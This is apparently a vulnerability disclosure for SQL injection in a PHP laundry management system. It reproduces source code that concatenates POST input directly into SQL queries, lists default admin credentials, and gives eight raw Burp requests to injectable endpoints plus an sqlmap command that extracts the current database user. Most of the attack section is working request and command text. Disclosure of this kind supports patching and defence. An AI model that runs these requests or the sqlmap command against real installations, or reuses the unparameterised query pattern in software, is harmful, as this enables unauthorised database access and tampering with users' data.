






## Online Laundry Management System

## SQL Injection on `/admin_class.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/ajax.php, /admin_class.php
```

The potential injection point is located within the `delete_category/delete_inv/delete_laundry/delete_supply/delete_user/login/save_inv/save_user` function in `admin_class.php`. This function directly utilizes the `$id` variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# ajax.php
<?php
ob_start();
$action = $_GET['action'];
include 'admin_class.php';
$crud = new Action();

if($action == 'login'){
	$login = $crud->login();
	if($login)
		echo $login;
}

if($action == 'delete_user'){
	$save = $crud->delete_user();
	if($save)
		echo $save;
}

if($action == "delete_category"){
	$save = $crud->delete_category();
	if($save)
		echo $save;
}

if($action == "delete_supply"){
	$save = $crud->delete_supply();
	if($save)
		echo $save;
}

if($action == "delete_laundry"){
	$save = $crud->delete_laundry();
	if($save)
		echo $save;
}

if($action == "delete_inv"){
	$save = $crud->delete_inv();
	if($save)
		echo $save;
}
```

```php
<?php
session_start();
ini_set('display_errors', 1);
Class Action {
	private $db;

	public function __construct() {
		ob_start();
   	include 'db_connect.php';
    
    $this->db = $conn;
	}
	function __destruct() {
	    $this->db->close();
	    ob_end_flush();
	}

	function login(){
		extract($_POST);
		$qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".$password."' ");
		if($qry->num_rows > 0){
			foreach ($qry->fetch_array() as $key => $value) {
				if($key != 'passwors' && !is_numeric($key))
					$_SESSION['login_'.$key] = $value;
			}
				return 1;
		}else{
			return 3;
		}
	}
	function login2(){
		extract($_POST);
		$qry = $this->db->query("SELECT * FROM user_info where email = '".$email."' and password = '".md5($password)."' ");
		if($qry->num_rows > 0){
			foreach ($qry->fetch_array() as $key => $value) {
				if($key != 'passwors' && !is_numeric($key))
					$_SESSION['login_'.$key] = $value;
			}
			$ip = isset($_SERVER['HTTP_CLIENT_IP']) ? $_SERVER['HTTP_CLIENT_IP'] : isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR'];
			$this->db->query("UPDATE cart set user_id = '".$_SESSION['login_user_id']."' where client_ip ='$ip' ");
				return 1;
		}else{
			return 3;
		}
	}
	function logout(){
		session_destroy();
		foreach ($_SESSION as $key => $value) {
			unset($_SESSION[$key]);
		}
		header("location:login.php");
	}
	function logout2(){
		session_destroy();
		foreach ($_SESSION as $key => $value) {
			unset($_SESSION[$key]);
		}
		header("location:../index.php");
	}

	function save_user(){
		extract($_POST);
		$data = " name = '$name' ";
		$data .= ", username = '$username' ";
		$data .= ", password = '$password' ";
		$data .= ", type = '$type' ";
		if(empty($id)){
			$save = $this->db->query("INSERT INTO users set ".$data);
		}else{
			$save = $this->db->query("UPDATE users set ".$data." where id = ".$id);
		}
		if($save){
			return 1;
		}
	}
	function signup(){
		extract($_POST);
		$data = " first_name = '$first_name' ";
		$data .= ", last_name = '$last_name' ";
		$data .= ", mobile = '$mobile' ";
		$data .= ", address = '$address' ";
		$data .= ", email = '$email' ";
		$data .= ", password = '".md5($password)."' ";
		$chk = $this->db->query("SELECT * FROM user_info where email = '$email' ")->num_rows;
		if($chk > 0){
			return 2;
			exit;
		}
			$save = $this->db->query("INSERT INTO user_info set ".$data);
		if($save){
			$login = $this->login2();
			return 1;
		}
	}

	function save_settings(){
		extract($_POST);
		$data = " name = '$name' ";
		$data .= ", email = '$email' ";
		$data .= ", contact = '$contact' ";
		$data .= ", about_content = '".htmlentities(str_replace("'","&#x2019;",$about))."' ";
		if($_FILES['img']['tmp_name'] != ''){
						$fname = strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
						$move = move_uploaded_file($_FILES['img']['tmp_name'],'../assets/img/'. $fname);
					$data .= ", cover_img = '$fname' ";

		}
		
		// echo "INSERT INTO system_settings set ".$data;
		$chk = $this->db->query("SELECT * FROM system_settings");
		if($chk->num_rows > 0){
			$save = $this->db->query("UPDATE system_settings set ".$data." where id =".$chk->fetch_array()['id']);
		}else{
			$save = $this->db->query("INSERT INTO system_settings set ".$data);
		}
		if($save){
		$query = $this->db->query("SELECT * FROM system_settings limit 1")->fetch_array();
		foreach ($query as $key => $value) {
			if(!is_numeric($key))
				$_SESSION['setting_'.$key] = $value;
		}

			return 1;
				}
	}

	
	function save_category(){
		extract($_POST);
		$data = " name = '$name' ";
		$data .= ", price = '$price' ";
		if(empty($id)){
			$save = $this->db->query("INSERT INTO laundry_categories set ".$data);
		}else{
			$save = $this->db->query("UPDATE laundry_categories set ".$data." where id=".$id);
		}
		if($save)
			return 1;
	}
	function delete_category(){
		extract($_POST);
		$delete = $this->db->query("DELETE FROM laundry_categories where id = ".$id);
		if($delete)
			return 1;
	}
	function save_supply(){
		extract($_POST);
		$data = " name = '$name' ";
		if(empty($id)){
			$save = $this->db->query("INSERT INTO supply_list set ".$data);
		}else{
			$save = $this->db->query("UPDATE supply_list set ".$data." where id=".$id);
		}
		if($save)
			return 1;
	}
	function delete_supply(){
		extract($_POST);
		$delete = $this->db->query("DELETE FROM supply_list where id = ".$id);
		if($delete)
			return 1;
	}

	function save_laundry(){
		extract($_POST);
		$data = " customer_name = '$customer_name' ";
		$data .= ", remarks = '$remarks' ";
		$data .= ", total_amount = '$tamount' ";
		$data .= ", amount_tendered = '$tendered' ";
		$data .= ", amount_change = '$change' ";
		if(isset($pay)){
			$data .= ", pay_status = '1' ";
		}
		if(isset($status))
			$data .= ", status = '$status' ";
		if(empty($id)){
			$queue = $this->db->query("SELECT `queue` FROM laundry_list where status != 3 order by id desc limit 1");
			$queue =$queue->num_rows > 0 ? $queue->fetch_array()['queue']+1 : 1;
			$data .= ", queue = '$queue' ";
			$save = $this->db->query("INSERT INTO laundry_list set ".$data);
			if($save){
				$id = $this->db->insert_id;
				foreach ($weight as $key => $value) {
					$items = " laundry_id = '$id' ";
					$items .= ", laundry_category_id = '$laundry_category_id[$key]' ";
					$items .= ", weight = '$weight[$key]' ";
					$items .= ", unit_price = '$unit_price[$key]' ";
					$items .= ", amount = '$amount[$key]' ";
					$save2 = $this->db->query("INSERT INTO laundry_items set ".$items);
				}
				return 1;
			}		
		}else{
			$save = $this->db->query("UPDATE laundry_list set ".$data." where id=".$id);
			if($save){
				$this->db->query("DELETE FROM laundry_items where id not in (".implode(',',$item_id).") ");
				foreach ($weight as $key => $value) {
					$items = " laundry_id = '$id' ";
					$items .= ", laundry_category_id = '$laundry_category_id[$key]' ";
					$items .= ", weight = '$weight[$key]' ";
					$items .= ", unit_price = '$unit_price[$key]' ";
					$items .= ", amount = '$amount[$key]' ";
					if(empty($item_id[$key]))
						$save2 = $this->db->query("INSERT INTO laundry_items set ".$items);
					else
						$save2 = $this->db->query("UPDATE laundry_items set ".$items." where id=".$item_id[$key]);
				}
				return 1;
			}	

		}
	}

	function delete_laundry(){
		extract($_POST);
		$delete = $this->db->query("DELETE FROM laundry_list where id = ".$id);
		$delete2 = $this->db->query("DELETE FROM laundry_items where laundry_id = ".$id);
		if($delete && $delete2)
			return 1;
	}
	function save_inv(){
		extract($_POST);
		$data = " supply_id = '$supply_id' ";
		$data .= ", qty = '$qty' ";
		$data .= ", stock_type = '$stock_type' ";
		if(empty($id)){
			$save = $this->db->query("INSERT INTO inventory set ".$data);
		}else{
			$save = $this->db->query("UPDATE inventory set ".$data." where id=".$id);
		}
		if($save)
			return 1;
	}
	function delete_inv(){
		extract($_POST);
		$delete = $this->db->query("DELETE FROM inventory where id = ".$id);
		if($delete)
			return 1;
	}
	

}
```

### Proof of Concept:

**Burp Request:**

```
POST /ajax.php?action=delete_category HTTP/1.1
Host: 192.168.150.131
Content-Length: 4
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=categories
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=5
```

```
POST /ajax.php?action=delete_inv HTTP/1.1
Host: 192.168.150.131
Content-Length: 4
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=inventory
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=3
```

```
POST /ajax.php?action=delete_laundry HTTP/1.1
Host: 192.168.150.131
Content-Length: 5
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=laundry
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=21
```

```
POST /ajax.php?action=delete_supply HTTP/1.1
Host: 192.168.150.131
Content-Length: 4
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=supply
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=4
```

```
POST /ajax.php?action=delete_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 5
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=11
```

```
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.150.131
Content-Length: 32
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

username=admin&password=admin123
```

```
POST /ajax.php?action=save_inv HTTP/1.1
Host: 192.168.150.131
Content-Length: 34
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=inventory
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=&supply_id=2&qty=1&stock_type=2
```

```
POST /ajax.php?action=save_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 47
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

type=1&id=1&name=1&username=2&password=admin123
```

```
python3 sqlmap.py -r 1.txt -p id --current-user --batch --dbms mysql
```

**Screenshot**
















